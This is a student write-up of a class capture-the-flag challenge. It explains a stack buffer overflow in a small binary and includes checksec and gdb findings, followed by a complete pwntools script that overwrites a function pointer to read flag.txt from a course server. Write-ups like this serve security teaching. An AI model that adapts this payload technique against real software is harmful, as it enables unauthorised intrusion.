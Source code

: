 # CTF5

This document is a brief explanation of our resolution of the Wordpress CTF presented in class during week 5.

## Recognition

We start exploring the program source code and answering this questions:

- **Question1**: Is there any file that is opened and read by the program?

- **Answer**: Yes, there is a file that is opened by the program named `rules.txt`.

- **Question2**: Is there any way to control the file that is opened?

- **Answer**: We can change the file that is opened by redirecting the `fun` pointer, to the function `readtxt` and giving the name of the file that we want to open, `flag.txt`.

- **Question3**: Is there any way to cause a buffer overflow? If yes, what do we can do with that?

- **Answer**: Yes, is possible to cause a buffer overflow because the program allocates a buffer with a size of 32 bytes, but when it reads input using `scanf`, it expects to receive a string of up to 45 characters, which corresponds to 45 bytes. Since the buffer can only hold 32 bytes, providing an input longer than this will cause the data to overflow. Knowing about this possiblity we can create a buffer overflow to redirect the pointer `fun` to the function `readtxt`.

## Searching and Analysing

First we test if the program is safe or have some types of vulnerabilities by running the command `checksec program` and this was what we obtain:

<div align="center">
    <figure>
        <img src="images/CTF5/checksec.png" width="550">
        <figcaption style="font-size: smaller;">Figure 1: Checksec information.</figcaption>
    </figure>
</div>

Here we can observe that the program has some important protection mechanisms deactivated:

 - **RELRO**: Without this, we can perform a GOT overwrite attack, redirecting the execution flow of the program.
 - **Stack Canary**: Here it says that the program has a canary but in the statement of the CTF it says that "the challenge binary does not contain a canary", making it easy to attack.
 - **PIE**: Without the PIE, the program loads at fixed address every time making it predictable and easy to exploit.

The program has some other important vulnerabilities deactivated but this are the most relevant ones for our exploit to be successful.

To achieve the exploit we start by finding the memory address where the function `readtxt` is allocated. To do that we used the `gdb` tool and find out that was address `0x80497a5`.

<div align="center">
    <figure>
        <img src="images/CTF5/readtxt_address.png" width="550">
        <figcaption style="font-size: smaller;">Figure 2: readtxt address.</figcaption>
    </figure>
</div>

We then learn that the buffer has 32 bytes of size by looking at the source code.

This is all we need to perform the exploit.

## Exploit

To carry out the exploit we create a python script where we call the program, build a payload and put the payload in the input of the program.

Here is how the payload is constructed:
- `flag\x00`:
    - The string `"flag"` is followed by a null byte (`\x00`) to end the string.
    - This ensures the `sprintf` function in `readtxt` only processes `"flag"` and ignores the padding that follows.
- `b"A" * (31 - len("flag"))`:
    - This padding fills the rest of the buffer up to 31 bytes.
    - Since `"flag\x00"` is 5 bytes (`4 + 1` for the null byte), we pad with `31 - 5 = 26` bytes of A.
- `p32(0x80497a5)`
    - The little-endian address of `readtxt`
    - This overwrites the return address, redirecting execution to `readtxt`

Payload after construction:
```python
payload = b"flag\x00" + b"A" * (31 - len("flag")) + p32(0x80497a5)
```

To do this exploit we used the `pwntools` library in Python and this was the complete script we use to do this exploit:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
#r = process('./program')

readtxt_address = p32(0x80497a5)

flag = b"flag\x00"

payload = flag + b"A" * (31 - len("flag")) + readtxt_address
 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

With this script we successfully retrieved the flag from the `flag.txt` file.

<div align="center">
    <figure>
        <img src="images/CTF5/flag.png" width="550">
        <figcaption style="font-size: smaller;">Figure 3: Flag founded.</figcaption>
    </figure>
</div>